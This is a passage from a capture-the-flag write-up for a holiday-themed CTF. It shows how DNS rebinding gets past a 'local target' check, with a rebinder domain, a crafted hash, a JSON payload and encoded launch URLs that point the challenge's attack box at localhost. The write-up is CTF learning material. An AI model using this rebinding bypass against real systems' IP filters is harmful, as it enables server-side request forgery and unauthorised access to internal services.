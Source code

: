 Here's the launch URL:
https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFjYjQ2MGIifQ==

But here's the issue: "Local target detected, aborting attack"

{F1133394}

We know domains can be used in the `target` field since dashes are allowed. The first thing that comes to mind is a DNS Rebinding attack. The site http://1u.ms/ has a succint explanation that details why this would work in this case:

> DNS rebinding is a well-known technique targeting TOCTOU (Time-of-check to time-of-use) type of vulnerabilities during IP blacklisting or whitelisting. It is performed using a domain that resolves in a legit IP during the first request (check) and to the forbidden one during the second request (use).

In our case, we'd like to craft a domain that resolves to `203.0.113.213` for the check and then the localhost `127.0.0.1` when the attack is launched. 

We can make a domain that behaves like this using a this tool: https://lock.cmpxchg8b.com/rebinder.html

{F1133407}

And now we have this domain which randomly resolve to either 127.0.0.1 or 203.0.113.213: `cb0071d5.7f000001.rbndr.us`. This took a few times to work because we have to win two "coin flips" of the IP pointing to 203.0.113.213 first and then 127.0.0.1 for the actual attack.

With a domain prepared, we can relaunch the attack! 

Here's the hash:
md5('mrgrinch463cb0071d5.7f000001.rbndr.us') == 51a799c562ed548d5ce9c8f4d1e71455

Here's the payload:
{"target":"cb0071d5.7f000001.rbndr.us","hash":"51a799c562ed548d5ce9c8f4d1e71455"}

Here's the launch URL:
https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiJjYjAwNzFkNS43ZjAwMDAwMS5yYm5kci51cyIsImhhc2giOiI1MWE3OTljNTYyZWQ1NDhkNWNlOWM4ZjRkMWU3MTQ1NSJ9

After a few tries, the rebinding attack works and we've DDoS'd  Grinch Networks and saved the holidays!

{F1133408}

## Epilogue
I'm glad that we saved Christmas but I'm sad that it's over. These were 12 fantastic challenges - and they were a challenge in every sense of the word. I look forward to more CTF's made by Adam in the future! 

>Grinch sprang to his sleigh, to Max he gave a whistle,
>And away they all flew like the down of a thistle.
>But I heard him exclaim, ere he drove out of sight—
>“Happy Hackmas to all, and to all a good night!”

@bendtheory
